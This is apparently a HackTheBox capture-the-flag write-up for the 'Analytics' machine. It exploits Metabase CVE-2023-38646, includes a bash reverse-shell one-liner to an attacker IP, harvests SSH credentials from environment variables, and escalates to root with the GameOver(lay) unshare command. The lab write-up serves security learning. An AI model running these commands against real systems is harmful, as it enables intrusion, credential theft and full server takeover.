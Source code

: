 ```yaml
---
title: Analytics
date: 2023-12-06
categories: [CTF, HackTheBox]
tags: [easy, linux, subdomain, cve, docker, env, gameoverlay]
img_path: /assets/img/htb/Analytics
image: 
    path: analytics.webp
    lqip: data:image/webp;base64,L2Fzc2V0cy9pbWcvaHRiL0FuYWx5dGljcy9hbmFseXRpY3Mud2VicA==
    alt: Machine Info Card
---
```


## Machine Info

Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a `Metabase` instance, which is vulnerable to Pre-Authentication Remote Code Execution ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to `GameOverlay`, which is leveraged to obtain root privileges.

## Port Scanning

We are going to begin by using `nmap` to scan for open ports.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.129.248.190 -oN allports
```

![Nmap Results: Open Ports](allports.png)
_Open Ports_

## Service Detection

There are 2 open ports in the target, so let's use `nmap` one more time to get more information about them.

```bash
nmap -p22,80 -sCV 10.129.248.190 -oN services
```

![Nmap Results: Services](services.png)
_Services & Versions_

## Port 80 Enumeration

Since we found a domain in the `nmap` results, we have to add it to our `/etc/hosts`{: .filepath} file:

![Add domain](hosts1.png)

Looking at the website, it seems to be a static page but the login tab redirects us to a subdomain: **data.analytical.htb**

![Website](web.png)

![Subdomain](subdomain.png)

To access that site we have to add the subdoaim to our `/etc/hosts`{: .filepath} file:

![Add Subdomain](hosts2.png)

We found the login page of a service called [Metabase](https://www.metabase.com/){:target="_blank"}. Since we don't have valid credentials we are going to search in order to find any vulnerability associated with this service.

![Metabase Login Panel](loginpanel.png)
_Metabase Login Panel_

>Metabase is an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources.
{: .prompt-info }

### Metabase Pre-Auth RCE | CVE-2023-38646

A simple search shows us that there is a vulnerability in **Metabase** that allows to gain **Remote Command Execution**.

![Searching for Metabase Vulnerabilities](searchmeta.png)

[CVE-2023–38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}, allowed attackers to execute arbitrary commands on the server without requiring any authentication. The impact of this flaw was severe, as it granted unauthorized access to the server at the server’s privilege level.

>The vulnerability existed in the /api/setup/validate API endpoint, which served as a crucial part of Metabase’s initial setup process. During application setup, this endpoint was responsible for checking the database connection. However, attackers could exploit a flaw in the JDBC connection handling, leading to remote code execution (RCE) with pre-authentication. This meant that attackers could execute malicious commands on the server with elevated privileges, gaining full control over the application environment. With this level of access, an attacker could potentially steal sensitive data, manipulate the application, or even gain control of the entire server infrastructure.
{: .prompt-danger }

To successfully exploit this service we are going to use this [Github Repository](https://github.com/m3m0o/metabase-pre-auth-rce-poc){:target="_blank"}. The vulnerability consists in the use of a setup token which then will allow us to execute commands on the server.

```bash
wget https://raw.githubusercontent.com/m3m0o/metabase-pre-auth-rce-poc/main/main.py
```

![Downloading Exploit](exploit.png)

First we have to check if we have the **setup-token** available, so we have to try the endpoint `/api/session/properties`{: .filepath} and it will give us a lot of information. We are going to use the terminal to easily get what we want.

```bash
curl -s -X GET http://data.analytical.htb/api/session/properties | jq | grep 'setup-token' -C 2
```

![Token](token.png)

We have everything needed to test the exploit, so we will need the **target url**, the **setup-token** we just found and the **command we want to run**. This vulnerability is special because we can not see the output of the command, so we are going to send a ping request to our server in order to check if we have remote command execution.

>Remember to use `tcpdump` to listen for **icmp** requests.
{: .prompt-tip }

```bash
python3 metabase_exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'ping -c1 10.10.14.206'
```

![Testing Exploit](testing.png)
_Testing the exploit_

We get the icmp packets so now we are going to use the bash one-liner in order to get a reverse shell:

```bash
python3 metabase_exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.206/443 0>&1'
```

![RevShell](revshell.png)
_Sending a Reverse Shell_

## Shell as metalytics

We gained access to a Docker container, but using the `env` command we found credentials for `ssh`.

![Credentials](creds.png)

We saved the credential and use it to connect via `ssh` and finally we get access to the real machine as the **metalytics** user.

![SSH Login](ssh.png)

![Hostname](hostname.png)

## Privilege Escalation | [CVE-2023-2640](https://cloudsecurityalliance.org/blog/2023/10/17/new-container-exploit-rooting-non-root-containers-with-cve-2023-2640-and-cve-2023-32629-aka-gameover-lay){:target="_blank"}

After somer enumeration, we can notice the version of Ubuntu this machine is running and we found a vulnerability on the internet that allows us to elevate our privileges to root just by using a specific crafted command.

![System Info](uname.png)

![Privilege Escalation Search](searchpriv.png)

In this [Reddit Discussion](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/){:target="_blank"} there is a **Proof of Concept** we can use to test this machine. Just run the following command and as shown in the image below we managed to get a shell as root.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

![Privilege Escalation](privesc.png)
_Getting a Shell as Root_

## Flags

- [x] user.txt

```bash
cat /home/metalytics/user.txt 
e99**************************92f
```

- [x] root.txt

```bash
cat /root/root.txt
f49**************************88f
```

<h2 style="text-align:center;">Thanks for reading! 🙌 🙌 🙌</h2>
{: data-toc-skip='' .mt-4 .mb-0 }
